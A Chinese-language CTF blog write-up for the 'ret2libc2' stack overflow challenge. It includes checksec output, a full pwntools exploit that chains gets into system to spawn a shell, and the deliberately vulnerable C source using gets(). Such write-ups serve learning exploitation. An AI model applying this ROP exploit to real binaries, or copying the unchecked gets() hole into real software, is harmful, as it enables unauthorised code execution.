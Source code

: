```yaml
---
layout:     post
title:      ret2libc2
subtitle:   解题思路
date:       2018-07-08
author:     Mao
header-img: img/home-bg-geek.jpg
catalog: true
tags:
    - PWN
    - 栈溢出
---
```


## 所需环境

环境要求

> ubuntu 16.04 64bit
>
> python 2.7



所需工具

> pwntools
>
> gdb-peda
>
> 32位 ida



[程序下载](https://maoshuu.oss-cn-beijing.aliyuncs.com/elf/ret2libc2)



## 分析过程

```
checksec ret2libc2

[*] '/home/hello/Desktop/test/ret2libc2/ret2libc2'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```



```
file ret2libc2

ret2libc2: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked
```



ret2lib2与ret2lib1相比，最大的区别在于，程序中没有/bin/sh字符串，所以我们需要从其他地方获取/bin/sh字符串，并传递到system函数中



这里我们先跳转到gets函数，用来接收我们输入的 ‘/bin/sh’ 字符串，存储在buf2中，然后返回到sysytem函数，把buf2的地址传递给system函数，相当于通过指针传递参数

```python
payload = flat(['a'*112, gets_plt, pop_ebp, buf2, system_plt, ret_addr, buf2])
```



## 解题思路

exp.py

```python
#!/bin/sh/env python

from pwn import *

sh = process('./ret2libc2')
elf = ELF('./ret2libc2')

gets_plt = elf.plt['gets']
system_plt = elf.plt['system']
ret_addr = 0x8048490

pop_ebp = 0x0804872f

buf2 = 0x804A040

payload = flat(['a'*112, gets_plt, pop_ebp, buf2, system_plt, ret_addr, buf2])

sh.sendline(payload)
#sh.sendline('/bin/sh')
sh.interactive()
```





ret2libc2.c

```c
#include <stdio.h>

#include <stdlib.h>

#include <time.h>


char buf2[100];

void secure(void)
{
    int secretcode, input;
    srand(time(NULL));

    secretcode = rand();
    scanf("%d", &input);
    if(input == secretcode)
        system("no_shell_QQ");
}

int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);

    char buf1[100];

    printf("Something surprise here, but I don't think it will work.\n");
    printf("What do you think ?");
    gets(buf1);

    return 0;
}
```



## 总结